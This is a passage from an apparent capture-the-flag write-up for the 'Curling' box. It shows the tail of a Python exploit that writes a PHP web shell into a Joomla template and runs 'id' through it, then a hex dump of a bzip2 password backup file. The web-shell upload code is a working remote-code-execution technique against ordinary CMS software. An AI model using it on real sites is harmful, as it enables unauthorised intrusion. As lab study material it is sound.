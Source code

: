```py
        'jform[filename]':'/'+filename
    }
    shreq = session.post(shlink, data=shdata_up)
    path2shell = '/templates/beez3/jsstrings.php?x=id'
    print '[+] Shell is ready to use: ' + str(path2shell)
    print '[+] Checking:'
    shreq = session.get(target + path2shell)
    shresp = shreq.text

    print shresp

print '\n[+] Module finished.'
```
*Executing the python script*

![Img](images/rce.png "Img")

I couldn't read ``user.txt`` as I was only ``www-data`` so I decided to focus on ``password_backup``, which turns out to be a bzip2 file (by the file headers).

```console
parallels@ubuntu:~/Desktop/Curling$ cat backup.bz2
00000000: 425a 6839 3141 5926 5359 819b bb48 0000  BZh91AY&SY...H..
00000010: 17ff fffc 41cf 05f9 5029 6176 61cc 3a34  ....A...P)ava.:4
00000020: 4edc cccc 6e11 5400 23ab 4025 f802 1960  N...n.T.#.@%...`
00000030: 2018 0ca0 0092 1c7a 8340 0000 0000 0000   ......z.@......
00000040: 0680 6988 3468 6469 89a6 d439 ea68 c800  ..i.4hdi...9.h..
00000050: 000f 51a0 0064 681a 069e a190 0000 0034  ..Q..dh........4
00000060: 6900 0781 3501 6e18 c2d7 8c98 874a 13a0  i...5.n......J..
00000070: 0868 ae19 c02a b0c1 7d79 2ec2 3c7e 9d78  .h...*..}y..<~.x
00000080: f53e 0809 f073 5654 c27a 4886 dfa2 e931  .>...sVT.zH....1
00000090: c856 921b 1221 3385 6046 a2dd c173 0d22  .V...!3.`F...s."
000000a0: b996 6ed4 0cdb 8737 6a3a 58ea 6411 5290  ..n....7j:X.d.R.
000000b0: ad6b b12f 0813 8120 8205 a5f5 2970 c503  .k./... ....)p..
000000c0: 37db ab3b e000 ef85 f439 a414 8850 1843  7..;.....9...P.C
000000d0: 8259 be50 0986 1e48 42d5 13ea 1c2a 098c  .Y.P...HB....*..
000000e0: 8a47 ab1d 20a7 5540 72ff 1772 4538 5090  .G.. .U@r..rE8P.
000000f0: 819b bb48
```
